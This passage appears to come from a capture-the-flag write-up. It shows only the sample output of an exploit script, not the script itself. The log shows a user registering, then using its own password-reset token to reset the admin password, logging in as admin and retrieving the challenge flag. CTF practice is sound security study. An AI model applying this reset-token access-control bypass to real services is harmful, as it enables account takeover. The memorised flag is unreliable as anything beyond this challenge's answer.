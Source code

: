 Here's what the result of this script might look like:

```
Registration of user YUTPGSLAZkVhpJOQCiCFuGrS with the password chTWxKNkDbkEfjxOTImvuejX
Registration successful!
Log in user YUTPGSLAZkVhpJOQCiCFuGrS
Welcome, YUTPGSLAZkVhpJOQCiCFuGrS
Get the admin username once logged in as user YUTPGSLAZkVhpJOQCiCFuGrS
Admin username: admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df
Log out user YUTPGSLAZkVhpJOQCiCFuGrS
You have been logged out successfully.
Get Reset Token for user YUTPGSLAZkVhpJOQCiCFuGrS
Reset Token for user YUTPGSLAZkVhpJOQCiCFuGrS: Yaa9CV_6dIGSnZx3A0apKA
Reset password for user: admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df with user reset token Yaa9CV_6dIGSnZx3A0apKA
Password reset successfully for admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df
Log in as admin
Welcome, admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df
Go to ben10 image and get the flag
Flag: srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```


